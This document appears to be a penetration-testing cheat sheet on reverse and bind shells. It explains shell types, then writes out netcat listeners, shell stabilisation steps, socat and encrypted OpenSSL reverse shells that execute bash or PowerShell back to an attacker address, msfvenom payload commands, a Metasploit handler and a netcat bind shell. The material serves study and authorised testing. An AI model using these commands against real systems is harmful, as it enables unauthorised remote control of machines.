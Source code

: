 ```yaml
---
icon: terminal
---
```



# Shells

### Key Concepts

#### Types of Shells

Interactive: you can interact with programs after executing them (e.g. nano)

* TeleTYpewriter (TTY): A fully interactive and stable terminal session

Non-Interactive: limited to using programs that don't require user interaction. Most reverse/bind shells are non-interactive.

## Reverse Shells

Target is forced to execute code that connects back to you computer. Attacker uses a listener to catch connection.&#x20;

{% hint style="info" %}
Can bypass firewalls rules and is far more commonly used.
{% endhint %}

### Netcat

`nc -lvnp PORT_NUMBER`

`-l` act as a listener

`-v` request a verbose output

`-n` do not resolve hostnames or use DNS

`-p` indicates what port to use

{% hint style="info" %}
By default, netcat reverse shells are very unstable. We have to upgrade them.
{% endhint %}

#### Upgrading a Netcat Shell

Python:

1. `python -c 'import pty;pty.spawn("/bin/bash")'` to spawn a bash shell on target machine
2. `export TERM=xterm` to allow Terminal commands (on attacker machine)
3. `Ctrl+Z` to background the current reverse shell process
4. `stty raw -echo` to pass all keystrokes to the remote shell
5. `fg` to bring the backgrounded reverse shell back to the foreground
6. (Once exited reverse shell) use `reset` to restore terminal to normal

rlwrap (Good for Windows shells):

1. `rlwrap nc -lvnp PORT_NUMBER`&#x20;
2. Same process as above to stabilize

Socat:\
use netcat as a stepping stone into a fully-featured Socat shell, only on Linux targets. Can use Socat for basic Windows shells.

1. Transfer a socat static compiled binary to target machine
2. Windows:&#x20;
   1. `socat TCP-L:PORT` for listener
   2. `socat TCP:LOCAL_IP:PORT EXEC:powershell.exe,pipes`&#x20;
3. Linux (with stabilization)
   1. `socat TCP-L:PORT FILE:tty,raw,echo=0` for listener
   2. `socat TCP:LOCAL_IP:PORT EXEC:"bash -li",pty,stderr,sigint,setsid,sane`&#x20;

We can also use encrypted socat shells, by replacing `TCP` with `OPENSSL` . You must have an SLL Certificate on the attacking machine:

```bash
#Generate certificate
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
#Merge into one .pem file
cat shell.key shell.crt > shell.pem
#Reverse shell listener
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 - verify=0
#On target machine
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

### Msfvenom

Used to generate code for reverse and bind shell, can also be used to generate hexadecimal shell code for buffer overflow exploit. Payloads in various formats of your choosing.

`msfvenom -p PAYLOAD OPTIONS`&#x20;

`-f` specify output format

`-o` output location and filename

`LHOST=IP` specifies IP to connect back to

`LPORT=PORT` specify port on local machine to connect back to\\

e.g. `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST= LPORT=`

Payload Types:

* Staged: sent in two parts, stager piece of code on target machine that connects back to a listener to load real payload, does not touch the disk
* Stageless: self-contained but the payload is on the disk so it's easier to catch

Metasploit Multi/Handler is a good tool to catch reverse shells (especially for meterpreter shells)

```bash
msfconsole #open metasploit
use multi/handler
options
set PAYLOAD <PAYLOAD> LHOST <LOCAL-IP> LPORT <PORT>
exploit -j #-j to run as background
```

### Web Shells

Some websites allow the ability to upload an executable file to active a reverse or bind shell. They are typically run inside a webserver in a language like PHP.



## Bind Shells

The code executed is a listener attached to a shell directly on the target.&#x20;

{% hint style="info" %}
May be protected by firewalls and is far less common.
{% endhint %}

On target machine: `nc -lvnp -e "cmd.exe"`

On attacker machine: `nc MACHINE_IP`



